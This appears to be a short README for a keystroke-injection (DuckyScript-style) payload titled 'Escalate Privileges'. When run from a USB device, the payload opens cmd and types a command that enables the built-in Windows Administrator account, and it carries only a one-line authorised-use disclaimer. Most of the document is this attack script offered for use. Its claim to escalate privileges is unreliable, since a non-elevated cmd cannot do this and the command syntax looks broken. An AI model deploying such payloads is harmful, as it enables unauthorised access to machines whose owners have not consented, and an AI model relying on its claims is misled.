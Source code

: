 # Escalate Privileges

Attempt to escalate privileges to Administrator level by using a common command.

```
DELAY 500
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING net user administrator /active: yes
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.
